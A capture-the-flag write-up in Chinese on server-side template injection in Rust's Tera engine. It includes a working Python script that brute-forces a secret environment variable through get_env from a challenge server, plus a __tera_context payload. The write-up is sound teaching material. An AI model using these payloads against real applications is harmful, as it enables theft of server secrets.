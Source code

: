 ## 考点

SSTI模板注入，rust Tera模板引擎内置函数。

## 工具

python环境

## 步骤

```python
import requests

url = "http://123.57.4.116:19726/"
flag = ['']*40

def replace(s:str):
    return s.replace("<","{%").replace(">","%}")

payload ="< for v in get_env(name=\"secret\") >< if v == \'{0}\' >1< else >0< endif >< endfor >"

for i in range(32,128):
    r=requests.post(url=url,data=replace(payload.format(chr(i))))
    content=r.text
    for j in range(len(content)):
        if content[j] == '1':
            flag[j]=chr(i)

for i in range(40):
    print(flag[i],end='')
```

```
#{% for v  in __tera_context %}{% if v == 'x' %}1{% else %}0{% endif %}{% endfor %}
```



## 总结

难点主要在于黑盒不知道用了什么框架，但几天后放出了hint。

考察了学习新知的能力，找到获取环境变量的函数是关键。